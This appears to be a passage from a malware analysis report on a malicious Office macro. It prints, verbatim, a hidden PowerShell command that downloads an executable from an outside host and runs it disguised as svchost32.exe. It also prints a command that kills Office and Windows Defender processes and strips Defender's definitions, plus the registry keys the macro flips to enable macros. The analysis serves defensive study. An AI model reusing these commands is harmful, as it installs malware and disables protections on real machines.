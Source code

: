 



cmd.exe /c powershell -W Hidden (New-Object System.NeT.WeBClieNT).DownloadFile('http://lokipanelhostingpanel[.]gq/work/kh/1.exe','%Public%\\\\svchost32.exe');Start-Process '%Public%\\\\svchost32.exe




1

cmd.exe /c powershell -W Hidden (New-Object System.NeT.WeBClieNT).DownloadFile('http://lokipanelhostingpanel[.]gq/work/kh/1.exe','%Public%\\\\svchost32.exe');Start-Process '%Public%\\\\svchost32.exe





The macro then attempts to kill Microsoft Office and Windows Defender processes using the ‘taskkill’ command. The command does not attempt to kill the specific Office process that would load the particular delivery document, such as Excel in the case of this “.xlam” file, but instead attempts to kill processes associated with Word, Excel, PowerPoint and Publisher. This blanket approach to kill the appropriate process suggests that the actor does not change this command within their macro across delivery documents they created within these Microsoft Office applications. The command does not just attempt to kill the Windows Defender process, but also attempts to clear the detection definitions to not trigger an antivirus alert. The macro performs all of these activities with the following command:





cmd /c taskkill /f /im winword.exe&taskkill /f /im Excel.exe&taskkill
/f /im MSPUB.exe&taskkill /f /im POWERPNT.EXE&taskkill /f /im
MSASCuiL.exe&taskkill /f /im MpCmdRun.exe&cd ""%ProgramFiles%\Windows
Defender"" & MpCmdRun.exe -removedefinitions -dynamicsignatures & exit




1234

cmd /c taskkill /f /im winword.exe&taskkill /f /im Excel.exe&taskkill/f /im MSPUB.exe&taskkill /f /im POWERPNT.EXE&taskkill /f /imMSASCuiL.exe&taskkill /f /im MpCmdRun.exe&cd ""%ProgramFiles%\WindowsDefender"" & MpCmdRun.exe -removedefinitions -dynamicsignatures & exit





The macro also attempts to deactivate security mechanisms within Microsoft Office products by modifying the registry. First, the macro attempts to enable macros in multiple versions of Word, PowerPoint, Publisher and Excel by setting the following registry keys to the value of 1:





HKCU\Software\Microsoft\Office\11.0\Word\Security\VBAWarnings
HKCU\Software\Microsoft\Office\12.0\Word\Security\VBAWarnings
HKCU\Software\Microsoft\Office\14.0\Word\Security\VBAWarnings
HKCU\Software\Microsoft\Office\15.0\Word\Security\VBAWarnings
HKCU\Software\Microsoft\Office\16.0\Word\Security\VBAWarnings
HKCU\Software\Microsoft\Office\11.0\PowerPoint\Security\VBAWarnings
HKCU\Software\Microsoft\Office\12.0\PowerPoint\Security\VBAWarnings
HKCU\Software\Microsoft\Office\14.0\PowerPoint\Security\VBAWarnings
HKCU\Software\Microsoft\Office\15.0\PowerPoint\Security\VBAWarnings
HKCU\Software\Microsoft\Office\16.0\PowerPoint\Security\VBAWarnings
HKCU\Software\Microsoft\Office\11.0\publisher\Security\VBAWarnings
HKCU\Software\Microsoft\Office\12.0\publisher\Security\VBAWarnings
HKCU\Software\Microsoft\Office\14.0\publisher\Security\VBAWarnings
HKCU\Software\Microsoft\Office\15.0\publisher\Security\VBAWarnings
HKCU\Software\Microsoft\Office\16.0\publisher\Security\VBAWarnings
HKCU\Software\Microsoft\Office\11.0\Excel\Security\VBAWarnings
HKCU\Software\Microsoft\Office\12.0\Excel\Security\VBAWarnings
HKCU\Software\Microsoft\Office\14.0\Excel\Security\VBAWarnings
HKCU\Software\Microsoft\Office\15.0\Excel\Security\VBAWarnings
HKCU\Software\Microsoft\Office\16.0\Excel\Security\VBAWarnings